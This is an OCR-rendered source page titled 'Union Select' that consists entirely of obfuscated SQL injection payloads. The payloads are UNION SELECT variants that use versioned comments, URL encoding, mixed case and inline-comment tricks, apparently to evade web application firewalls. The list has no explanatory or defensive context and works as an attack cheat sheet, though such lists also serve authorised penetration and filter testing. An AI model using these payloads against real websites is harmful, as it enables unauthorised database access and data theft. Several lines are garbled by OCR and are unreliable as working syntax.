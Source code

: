 
### Union Select

```
/*!50000%55nIoN*/ /*!50000%53eLeCt*/
%55nion(%53elect 1,2,3)-- -
+union+distinct+select+
+union+distinctROW+select+
/**//*!12345UNION SELECT*//**/
/**//*!50000UNION SELECT*//**/
/**/UNION/**//*!50000SELECT*//**/
/*!50000UniON SeLeCt*/
union /*!50000%53elect*/
+ #?uNiOn + #?sEleCt
+ #?1q %0AuNiOn all#qa%0A#%0AsEleCt
/*!%55NiOn*/ /*!%53eLEct*/
/*!u%6eion*/ /*!se%6cect*/
+un/**/ion+se/**/lect
uni%0bon+se%0blect
%2f**%2funion%2f**%2fselect
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
REVERSE(noinu)+REVERSE(tceles)
/*--*/union/*--*/select/*--*/
union (/*!/**/ SeleCT */ 1,2,3)
/*!union*/+/*!select*/
union+/*!select*/
/**/union/**/select/**/
/**/uNIon/**/sEleCt/**/
+%2F**/+Union/*!select*/
/**//*!union*//**//*!select*//**/
/*!uNIOn*/ /*!SelECt*/
+union+distinct+select+
+union+distinctROW+select+
uNiOn aLl sElEcT
UNIunionON+SELselectECT
/**/union/*!50000select*//**/
0%a0union%a0select%09
%0Aunion%0Aselect%0A
%55nion/**/%53elect
uni<on all="" sel="">/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/
%252f%252a*/UNION%252f%252a /SELECT%252f%252a*/
%0A%09UNION%0CSELECT%10NULL%
/*!union*//*--*//*!all*//*--*//*!select*/
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C
/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/
+UnIoN/*&a=*/SeLeCT/*&a=*/
union+sel%0bect
+uni*on+sel*ect+
+#1q%0Aunion all#qa%0A#%0Aselect
union(select (1),(2),(3),(4),(5))
UNION(SELECT(column)FROM(table))
%23xyz%0AUnIOn%23xyz%0ASeLecT+
%23xyz%0A%55nIOn%23xyz%0A%53eLecT+
union(select(1),2,3)
union (select 1111,2222,3333)
uNioN (/*!/**/ SeleCT */ 11)
union (select 1111,2222,3333)
+#1q%0AuNiOn all#qa%0A#%0AsEleCt
/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/
%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/
+%23sexsexsex%0AUnIOn%23sexsexs ex%0ASeLecT+
+union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C
/*!f****U%0d%0aunion*/+/*!f****U%0d%0aSelEct*/
+%23blobblobblob%0aUnIOn%23blobblobblob%0aSeLe cT+
```